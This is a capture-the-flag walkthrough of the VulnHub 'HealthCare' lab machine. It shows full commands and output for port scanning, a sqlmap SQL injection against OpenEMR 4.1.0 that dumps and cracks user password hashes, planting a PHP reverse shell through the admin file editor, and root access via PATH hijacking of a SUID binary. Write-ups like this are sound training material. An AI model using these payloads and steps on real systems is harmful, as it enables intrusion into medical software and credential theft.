

# HealthCare 

Link to the Box: https://www.vulnhub.com/entry/healthcare-1,522/

## Let's start !!

First, we set an IP variable

````````
export IP=192.168.8.133
````````

## Scanning our target 

As always we start with our Regular Nmap Scan.

````````bash
nmap -vv -T4 -sV -sC -A --osscan-guess -p- -oN nmap_scan.txt $IP
````````

````````bash
Nmap scan report for 192.168.8.133
Host is up, received arp-response (0.00014s latency).
Scanned at 2022-11-10 01:15:04 IST for 53s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 ProFTPD 1.3.3d
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.2.17 ((PCLinuxOS 2011/PREFORK-1pclos2011))
| http-robots.txt: 8 disallowed entries 
| /manual/ /manual-2.2/ /addon-modules/ /doc/ /images/ 
|_/all_our_e-mail_addresses /admin/ /
|_http-title: Coming Soon 2
|_http-favicon: Unknown favicon MD5: 7D4140C76BF7648531683BFA4F7F8C22
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.17 (PCLinuxOS 2011/PREFORK-1pclos2011)
MAC Address: 00:0C:29:6B:55:87 (VMware)
OS fingerprint not ideal because: Didn't receive UDP response. Please try again with -sSU
Aggressive OS guesses: Linux 2.6.38 (99%), Linux 2.6.32 - 3.5 (98%), Linux 2.6.38 - 3.0 (96%), Linux 2.6.37 (95%), Linux 2.6.9 - 2.6.30 (95%), Linux 2.6.32 - 3.10 (94%), Linux 2.6.18 - 2.6.32 (94%), OpenWrt (Linux 2.4.32) (93%), Linux 2.6.22 (Fedora Core 6) (93%), Linux 2.6.27 - 2.6.28 (92%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.93%E=4%D=11/10%OT=21%CT=1%CU=%PV=Y%DS=1%DC=D%G=N%M=000C29%TM=636C0375%P=x86_64-pc-linux-gnu)
SEQ(SP=CB%GCD=1%ISR=CF%TI=Z%CI=Z%II=I%TS=A)
OPS(O1=M5B4ST11NW6%O2=M5B4ST11NW6%O3=M5B4NNT11NW6%O4=M5B4ST11NW6%O5=M5B4ST11NW6%O6=M5B4ST11)
WIN(W1=3890%W2=3890%W3=3890%W4=3890%W5=3890%W6=3890)
ECN(R=Y%DF=Y%TG=40%W=3908%O=M5B4NNSNW6%CC=N%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=Y%DF=Y%TG=40%W=3890%S=O%A=S+%F=AS%O=M5B4ST11NW6%RD=0%Q=)
T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)

Uptime guess: 0.003 days (since Thu Nov 10 01:11:33 2022)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=203 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Unix

TRACEROUTE
HOP RTT     ADDRESS
1   0.14 ms 192.168.8.133

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Nov 10 01:15:57 2022 -- 1 IP address (1 host up) scanned in 54.65 seconds

````````
so we have ports 21,80 open. I have enumerated port 80 (HTTP) because there is nothing on port 21 (FTP).

## Apache http Enumration (80)

first, I used `directory-list-2.3-medium.txt` but nothing interesting. so I have decided to use `directory-list-2.3-big.txt` which comes with seclists. 

#### if you don't  have seclists then run :- `apt install seclists`

````````python
gobuster dir -u http://192.168.8.133/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt  -t 200 -x php,txt,js,zip,html | tee gobuster.log
````````

````````bash
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.8.133/
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              html,php,txt,js,zip
[+] Timeout:                 10s
===============================================================
2022/11/10 01:47:53 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 5031]
/.html                (Status: 403) [Size: 999]
/index                (Status: 200) [Size: 5031]
/images               (Status: 301) [Size: 342] [--> http://192.168.8.133/images/]
/css                  (Status: 301) [Size: 339] [--> http://192.168.8.133/css/]
/js                   (Status: 301) [Size: 338] [--> http://192.168.8.133/js/]
/vendor               (Status: 301) [Size: 342] [--> http://192.168.8.133/vendor/]
/favicon              (Status: 200) [Size: 1406]
/robots               (Status: 200) [Size: 620]
/robots.txt           (Status: 200) [Size: 620]
/fonts                (Status: 301) [Size: 341] [--> http://192.168.8.133/fonts/]
/gitweb               (Status: 301) [Size: 342] [--> http://192.168.8.133/gitweb/]
/.html                (Status: 403) [Size: 999]
/phpMyAdmin           (Status: 403) [Size: 59]
/server-status        (Status: 403) [Size: 999]
/server-info          (Status: 403) [Size: 999]
/logitech-quickcam_W0QQcatrefZC5QQfbdZ1QQfclZ3QQfposZ95112QQfromZR14QQfrppZ50QQfsclZ1QQfsooZ1QQfsopZ1QQfssZ0QQfstypeZ1QQftrtZ1QQftrvZ1QQftsZ2QQnojsprZyQQpfidZ0QQsaatcZ1QQsacatZQ2d1QQsacqyopZgeQQsacurZ0QQsadisZ200QQsaslopZ1QQsofocusZbsQQsorefinesearchZ1.html (Status: 403) [Size: 999]
/openemr              (Status: 301) [Size: 343] [--> http://192.168.8.133/openemr/]
Progress: 7642217 / 7643004 (99.99%)===============================================================
2022/11/10 02:15:08 Finished
===============================================================
````````
okey, here we have `/openemr`.



after visiting the directory it shows the version of openemr v4.1.0 and the login page. Let's Started a google search for any Vulnerabilities of v4.1.0 that we can exploit. we found an SQL injection Vulnerability.

Reference:- https://www.exploit-db.com/exploits/49742 , https://www.exploit-db.com/exploits/17998

Let us exploit the sqli with sqlmap 

### Exploitaion of Vulnerability

Here I am facing a problem with the sqli script so I am doing it with sqlmap. but it will work fine for you.

````````bash
sqlmap -u http://192.168.8.133/openemr/interface/login/validateUser.php?u= -p 'u' --dbs -D 'openemr' -T users --columns --dump --level 4 --risk 3 --batch
````````

````````bash
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.6.7#stable}
|_ -| . [']     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 02:33:30 /2022-11-10/

[02:33:30] [WARNING] provided value for parameter 'u' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[02:33:30] [INFO] resuming back-end DBMS 'mysql' 
[02:33:30] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('OpenEMR=00e0ca4b426...ec50993c58'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: u (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: u=' OR NOT 6152=6152-- kLic

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: u=' AND (SELECT 2133 FROM(SELECT COUNT(*),CONCAT(0x716a627071,(SELECT (ELT(2133=2133,1))),0x7162626271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- ccmp

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: u=' AND (SELECT 9814 FROM (SELECT(SLEEP(5)))XtMK)-- GKyB
---
[02:33:30] [INFO] the back-end DBMS is MySQL
web server operating system: Linux
web application technology: Apache 2.2.17, PHP 5.3.3
back-end DBMS: MySQL >= 5.0
[02:33:30] [INFO] fetching database names
[02:33:30] [INFO] resumed: 'information_schema'
[02:33:30] [INFO] resumed: 'openemr'
[02:33:30] [INFO] resumed: 'test'
available databases [3]:
[*] information_schema
[*] openemr
[*] test

[02:33:30] [INFO] fetching columns for table 'users' in database 'openemr'
Database: openemr
Table: users
[53 columns]
+----------------------+--------------+
| Column               | Type         |
+----------------------+--------------+
| abook_type           | varchar(31)  |
| active               | tinyint(1)   |
| assistant            | varchar(255) |
| authorized           | tinyint(4)   |
| billname             | varchar(255) |
| cal_ui               | tinyint(4)   |
| calendar             | tinyint(1)   |
| city                 | varchar(30)  |
| city2                | varchar(30)  |
| default_warehouse    | varchar(31)  |
| email                | varchar(255) |
| facility             | varchar(255) |
| facility_id          | int(11)      |
| fax                  | varchar(30)  |
| federaldrugid        | varchar(255) |
| federaltaxid         | varchar(255) |
| fname                | varchar(255) |
| id                   | bigint(20)   |
| info                 | longtext     |
| irnpool              | varchar(31)  |
| lname                | varchar(255) |
| mname                | varchar(255) |
| newcrop_user_role    | varchar(30)  |
| notes                | text         |
| npi                  | varchar(15)  |
| organization         | varchar(255) |
| password             | longtext     |
| phone                | varchar(30)  |
| phonecell            | varchar(30)  |
| phonew1              | varchar(30)  |
| phonew2              | varchar(30)  |
| pwd_expiration_date  | date         |
| pwd_history1         | longtext     |
| pwd_history2         | longtext     |
| see_auth             | int(11)      |
| source               | tinyint(4)   |
| specialty            | varchar(255) |
| ssi_relayhealth      | varchar(64)  |
| state                | varchar(30)  |
| state2               | varchar(30)  |
| state_license_number | varchar(25)  |
| street               | varchar(60)  |
| street2              | varchar(60)  |
| streetb              | varchar(60)  |
| streetb2             | varchar(60)  |
| taxonomy             | varchar(30)  |
| title                | varchar(30)  |
| upin                 | varchar(255) |
| url                  | varchar(255) |
| username             | varchar(255) |
| valedictory          | varchar(255) |
| zip                  | varchar(20)  |
| zip2                 | varchar(20)  |
+----------------------+--------------+

[02:33:30] [INFO] fetching columns for table 'users' in database 'openemr'
[02:33:30] [INFO] fetching entries for table 'users' in database 'openemr'
[02:33:30] [WARNING] reflective value(s) found and filtering out
[02:33:30] [INFO] retrieved: ''
[02:33:30] [INFO] retrieved: '1'
[02:33:30] [INFO] retrieved: ' '
[02:33:30] [INFO] retrieved: '1'
[02:33:30] [INFO] retrieved: ' '
[02:33:30] [INFO] retrieved: '3'
[02:33:30] [INFO] retrieved: '1'
[02:33:30] [INFO] retrieved: ' '
[02:33:30] [INFO] retrieved: ' '
[02:33:30] [INFO] retrieved: ''
[02:33:30] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: 'PCLinuxOS Medical'
[02:33:31] [INFO] retrieved: '3'
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: 'Administrator'
[02:33:31] [INFO] retrieved: '1'
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ''
[02:33:31] [INFO] retrieved: 'Administrator'
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ''
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: '3863efef9ee2bfbc51ecdca359c6302bed1389e8'
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: '1'
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: '207Q00000X'
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: 'admin'
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ''
[02:33:31] [INFO] retrieved: '1'
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: '0'
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: '3'
[02:33:31] [INFO] retrieved: '0'
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ''
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: 'PCLinuxOS Medical'
[02:33:31] [INFO] retrieved: '3'
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ''
[02:33:31] [INFO] retrieved: ''
[02:33:31] [INFO] retrieved: 'PCLinuxOS'
[02:33:31] [INFO] retrieved: '2'
[02:33:31] [INFO] retrieved: ''
[02:33:31] [INFO] retrieved: ''
[02:33:31] [INFO] retrieved: 'Medical'
[02:33:31] [INFO] retrieved: ''
[02:33:31] [INFO] retrieved: ''
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ''
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: 'ab24aed5a7c4ad45615cd7e0da816eea39e4895d'
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: '0000-00-00'
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: '3'
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ''
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ''
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: '207Q00000X'
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ''
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: 'medical'
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] retrieved: ' '
[02:33:31] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[02:33:31] [INFO] using hash method 'sha1_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[02:33:31] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[02:33:31] [INFO] starting dictionary-based cracking (sha1_generic_passwd)
[02:33:31] [INFO] starting 4 processes 
[02:33:33] [INFO] cracked password 'ackbar' for user 'admin'                                                                                                               
[02:33:34] [INFO] cracked password 'medical' for user 'medical'                                                                                                            
[02:33:39] [INFO] cracked password 'medical' for user 'medical'                                                                                                            
Database: openemr                                                                                                                                                          
Table: users
[2 entries]
+----+-------------+--------------+---------------+------+---------+------+------+------+---------+---------+------+-------+-------+---------------+---------------+---------+-------+-------+-------+-------+--------+--------+--------+--------+--------+---------+---------+---------+---------+---------+----------+----------+-------------------+----------------------------------------------------+----------+----------+------------+----------+-----------+-----------+-----------+------------+------------+-------------+--------------+--------------+--------------+-----------------+-------------------+-------------------+---------------------+----------------------+
| id | facility_id | federaltaxid | federaldrugid | fax  | npi     | url  | zip  | city | info    | upin    | zip2 | city2 | email | fname         | lname         | mname   | notes | phone | state | title | active | cal_ui | source | state2 | street | irnpool | phonew1 | phonew2 | street2 | streetb | billname | calendar | facility          | password                                           | see_auth | streetb2 | taxonomy   | username | assistant | phonecell | specialty | abook_type | authorized | valedictory | organization | pwd_history1 | pwd_history2 | ssi_relayhealth | default_warehouse | newcrop_user_role | pwd_expiration_date | state_license_number |
+----+-------------+--------------+---------------+------+---------+------+------+------+---------+---------+------+-------+-------+---------------+---------------+---------+-------+-------+-------+-------+--------+--------+--------+--------+--------+---------+---------+---------+---------+---------+----------+----------+-------------------+----------------------------------------------------+----------+----------+------------+----------+-----------+-----------+-----------+------------+------------+-------------+--------------+--------------+--------------+-----------------+-------------------+-------------------+---------------------+----------------------+
| 1  | 3           | NULL         | NULL          | NULL | NULL    | NULL | NULL | NULL | NULL    | NULL    | NULL | NULL  | NULL  | Administrator | Administrator | NULL    | NULL  | NULL  | NULL  | NULL  | 1      | 3      | NULL   | NULL   | NULL   | <blank> | NULL    | NULL    | NULL    | NULL    | NULL     | 1        | PCLinuxOS Medical | 3863efef9ee2bfbc51ecdca359c6302bed1389e8 (ackbar)  | 1        | NULL     | 207Q00000X | admin    | NULL      | NULL      | NULL      | <blank>    | 1          | NULL        | NULL         | NULL         | NULL         | NULL            | <blank>           | <blank>           | NULL                | NULL                 |
| 2  | 3           | <blank>      | <blank>       | NULL | <blank> | NULL | NULL | NULL | <blank> | <blank> | NULL | NULL  | NULL  | PCLinuxOS     | Medical       | <blank> | NULL  | NULL  | NULL  | NULL  | 1      | 3      | NULL   | NULL   | NULL   | <blank> | NULL    | NULL    | NULL    | NULL    | NULL     | 0        | PCLinuxOS Medical | ab24aed5a7c4ad45615cd7e0da816eea39e4895d (medical) | 3        | NULL     | 207Q00000X | medical  | NULL      | NULL      | <blank>   | <blank>    | 0          | NULL        | NULL         | NULL         | NULL         | NULL            | <blank>           | <blank>           | 0000-00-00          | <blank>              |
+----+-------------+--------------+---------------+------+---------+------+------+------+---------+---------+------+-------+-------+---------------+---------------+---------+-------+-------+-------+-------+--------+--------+--------+--------+--------+---------+---------+---------+---------+---------+----------+----------+-------------------+----------------------------------------------------+----------+----------+------------+----------+-----------+-----------+-----------+------------+------------+-------------+--------------+--------------+--------------+-----------------+-------------------+-------------------+---------------------+----------------------+

[02:33:39] [INFO] table 'openemr.users' dumped to CSV file '/root/.local/share/sqlmap/output/192.168.8.133/dump/openemr/users.csv'
[02:33:39] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.8.133'

[*] ending @ 02:33:39 /2022-11-10/

````````
So we have our username and password.


|   Username   |   Password   |
| ------------ | ------------ |
|  admin       |   ackbar     |
|  medical     |   medical    |

## NOTE:- SQLMAP automatically Cracked the hashes. if you use the script form `exploit-db` then you need to crack the hash manually.

Let's log in with Credentials of `admin`


Okay, we have successfully login as administrator. now let's find a way to get a reverse shell connection.


Add Your php reverse shell into ---> Administration ---> Files ---> Select `config.php`

PHP Reverse shell:- https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

### Initial  Access 

Here i have used `pwncat`. You can also use netcat.

Reference for pwncat : https://github.com/calebstewart/pwncat

````````
pwncat-cs -lp 12345
````````

````````bash
[01:23:19] Welcome to pwncat 🐈!                                                                                                                             __main__.py:164
[01:23:37] received connection from 192.168.8.133:60683                                                                                                           bind.py:84
[01:23:37] 0.0.0.0:12345: normalizing shell path                                                                                                              manager.py:957
           192.168.8.133:60683: registered new host w/ db                                                                                                     manager.py:957
(local) pwncat$
(remote) apache@localhost.localdomain:/$ id                                                                                                                                
uid=479(apache) gid=416(apache) groups=416(apache)
(remote) apache@localhost.localdomain:/$ cat /home/almirant/user.txt 
d41d8cd98f00b204e9800998ecf8427e
(remote) apache@localhost.localdomain:/$ 
````````
Now, we have our initial access into the box but we are low-level user `apache`. we already have credentials for the user medical. let's log in as medical.

````````bash
remote) apache@localhost.localdomain:/home$ su medical                                                                                                                    
Password: 
(remote) medical@localhost.localdomain:/home$ id
uid=500(medical) gid=500(medical) groups=500(medical),7(lp),19(floppy),22(cdrom),80(cdwriter),81(audio),82(video),83(dialout),100(users),490(polkituser),501(fuse)
(remote) medical@localhost.localdomain:/home$ cd medical/
(remote) medical@localhost.localdomain:/home/medical$                                                                                                                      
(local) pwncat$ upload /opt/PEASS-ng/linPEAS/linpeas.sh
./linpeas.sh ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 827.8/827.8 KB • ? • 0:00:00
[01:33:47] uploaded 827.83KiB in 0.41 seconds                                                                                                                   upload.py:76
(local) pwncat$                                                                                                                                                             
(remote) medical@localhost.localdomain:/home/medical$ chmod +x linpeas.sh                                                                                                  
(remote) medical@localhost.localdomain:/home/medical$ ./linpeas.sh                                                                                                                  
````````
Okay, we have successfully login as medical and just grep our `linpeas.sh` it will scan the system for any misconfiguration, kernel exploits, suid, etc. which can lead us to become `root`.

### Privilage Esculation


Here we can see linpeas found an Interesting SUID Binary call `/usr/bin/healthcheck`. Let's see what is it.

````````python
(remote) medical@localhost.localdomain:/home/medical$ strings /usr/bin/healthcheck
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
setuid
system
setgid
__libc_start_main
GLIBC_2.0
PTRhp
[^_]
clear ; echo 'System Health Check' ; echo '' ; echo 'Scanning System' ; sleep 2 ; ifconfig ; fdisk -l ; du -h
(remote) medical@localhost.localdomain:/home/medical$                                                          

````````
By Inspecting, it looks like this binary is running `ifconfig` `fdisk`. Good thing for us we can manipulate it and get root.

```````` bash
(remote) medical@localhost.localdomain:/home/medical$ echo "/bin/bash" > ifconfig
(remote) medical@localhost.localdomain:/home/medical$ chmod +x ifconfig
(remote) medical@localhost.localdomain:/home/medical$ echo $PATH
/sbin:/usr/sbin:/bin:/usr/bin:/usr/local/bin:/usr/local/sbin:/usr/lib/qt4/bin
(remote) medical@localhost.localdomain:/home/medical$ export PATH=.:$PATH
(remote) medical@localhost.localdomain:/home/medical$ echo $PATH
.:/sbin:/usr/sbin:/bin:/usr/bin:/usr/local/bin:/usr/local/sbin:/usr/lib/qt4/bin
(remote) medical@localhost.localdomain:/home/medical$ /usr/bin/healthcheck  
'xterm-256color': unknown terminal type.
System Health Check

Scanning System
[root@localhost ~]# id
uid=0(root) gid=0(root) groups=0(root),7(lp),19(floppy),22(cdrom),80(cdwriter),81(audio),82(video),83(dialout),100(users),490(polkituser),500(medical),501(fuse)
[root@localhost ~]# whoami
root
[root@localhost ~]# cat /root/root.txt
██    ██  ██████  ██    ██     ████████ ██████  ██ ███████ ██████      ██   ██  █████  ██████  ██████  ███████ ██████  ██ 
 ██  ██  ██    ██ ██    ██        ██    ██   ██ ██ ██      ██   ██     ██   ██ ██   ██ ██   ██ ██   ██ ██      ██   ██ ██ 
  ████   ██    ██ ██    ██        ██    ██████  ██ █████   ██   ██     ███████ ███████ ██████  ██   ██ █████   ██████  ██ 
   ██    ██    ██ ██    ██        ██    ██   ██ ██ ██      ██   ██     ██   ██ ██   ██ ██   ██ ██   ██ ██      ██   ██    
   ██     ██████   ██████         ██    ██   ██ ██ ███████ ██████      ██   ██ ██   ██ ██   ██ ██████  ███████ ██   ██ ██ 

Thanks for Playing!

Follow me at: http://v1n1v131r4.com


root hash: eaff25eaa9ffc8b62e3dfebf70e83a7b

`````````

- DONE


